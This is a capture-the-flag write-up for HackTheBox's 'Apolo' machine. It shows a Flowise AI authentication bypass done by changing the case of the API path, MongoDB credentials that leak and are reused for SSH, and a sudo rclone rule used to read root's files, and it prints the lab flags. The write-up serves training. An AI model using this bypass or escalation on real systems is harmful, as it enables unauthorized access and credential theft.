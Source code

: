 ```yaml
---
title: "Apolo"
description: "In the lawless expanse of the Frontier Cluster, Apolo serves as a beacon of security, working to safeguard the Frontier Cluster's assets from bounty hunters."
pubDate: 2024-12-17
ctf: "HackTheBox University CTF 2024"
category: "fullpwn"
author: "sealldev"
section: "CTFs"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/htbunictf2024#apolo)

#### User

Starting with a portscan, there are ports `80` and `22`.

I check out the webserver at `apolo.htb`:
![apolohome.png](images/24-htbuni/apolohome.png)

The about page references a subdomain: `ai.apolo.htb`.

Adding that to `/etc/hosts`, we can see it's using `Flowise AI`, but we can't access anything without credentials...

![apoloai.png](images/24-htbuni/apoloai.png)

Looking online, there is an existing [Authentication Bypass for `Flowise AI`](https://www.exploit-db.com/exploits/52001):
```
*POC:*
curl http://localhost:3000/Api/v1/credentials
For seamless authentication bypass. Use burpsuite feature Match and replace rules in proxy settings. Add rule Request first line api/v1 ==> API/V1
```

... lol


I setup Burp and add a match replace rule, then reload. Exploring we can see the credentials has some MongoDB credentials!

![apolomongocreds.png](images/24-htbuni/apolomongocreds.png)

The credentials contain a username and password pair for a user `lewis`:
```
mongodb+srv://lewis:C0mpl3xi3Ty!_W1n3@cluster0.mongodb.net/myDatabase?retryWrites=true&w=majority
```

We can then SSH as `lewis` for user!

User Flag: `HTB{llm_ex9l01t_4_RC3}`

#### Root

Looking for the root flag, I check `sudo -l`.

```bash
lewis@apolo:~$ sudo -l
Matching Defaults entries for lewis on apolo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lewis may run the following commands on apolo:
    (ALL : ALL) NOPASSWD: /usr/bin/rclone
```

Checking `rclone ` we have the ability to use `cat`, for example:
```bash
lewis@apolo:~$ rclone cat user.txt
2024/12/16 23:00:00 NOTICE: Config file "/home/lewis/.config/rclone/rclone.conf" not found - using defaults
HTB{llm_ex9l01t_4_RC3}
```

Let's try read `/root/root.txt` with the `sudo` version.
```bash
lewis@apolo:~$ sudo /usr/bin/rclone cat /root/root.txt
2024/12/16 22:59:05 NOTICE: Config file "/root/.config/rclone/rclone.conf" not found - using defaults
HTB{cl0n3_rc3_f1l3}
```

Flag: `HTB{cl0n3_rc3_f1l3}`